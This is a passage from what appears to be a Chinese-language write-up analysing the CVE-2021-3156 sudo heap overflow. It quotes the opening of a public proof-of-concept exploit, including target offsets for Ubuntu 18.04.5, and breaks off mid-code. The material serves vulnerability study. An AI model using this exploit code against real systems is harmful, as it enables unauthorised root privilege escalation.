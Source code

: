 > 接上一小节，主要资料：[https://forum.90sec.com/t/topic/1552](https://forum.90sec.com/t/topic/1552)
>

# POC分析
## 简化原poc
接下来看一下poc的分析，这里我参考的poc是：

> [https://github.com/blasty/CVE-2021-3156](https://github.com/blasty/CVE-2021-3156)
>

poc代码如下：

```bash
/**
 ** CVE-2021-3156 PoC by blasty <peter@haxx.in>
 ** ===========================================
 **
 ** Exploit for that sudo heap overflow thing everyone is talking about.
 ** This one aims for singleshot. Does not fuck with your system files.
 ** No warranties.
 **
 ** Shout outs to:
 **   Qualys      - for pumping out the awesome bugs
 **   lockedbyte  - for coop hax. (shared tmux gdb sessions ftw)
 **   dsc         - for letting me rack up his electricity bill
 **   my wife     - for all the quality time we had to skip
 **
 **  Enjoy!
 **
 **   -- blasty // 20210130
 **/

#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <stdint.h>
#include <unistd.h>
#include <ctype.h>

// 512 environment variables should be enough for everyone
#define MAX_ENVP 512
#define SUDOEDIT_PATH "/usr/bin/sudoedit"

typedef struct {
	char *target_name;
	char *sudoedit_path;
	uint32_t smash_len_a;
	uint32_t smash_len_b;
	uint32_t null_stomp_len;
	uint32_t lc_all_len; 
} target_t;

target_t targets[] = {
    {
        // Yes, same values as 20.04.1, but also confirmed.
        .target_name    = "Ubuntu 18.04.5 (Bionic Beaver) - sudo 1.8.21, libc-2.27",
        .sudoedit_path  = SUDOEDIT_PATH,
        .smash_len_a    = 56,
        .smash_len_b    = 54,
        .null_stomp_len = 63, 
        .lc_all_len     = 212
    },
    {
```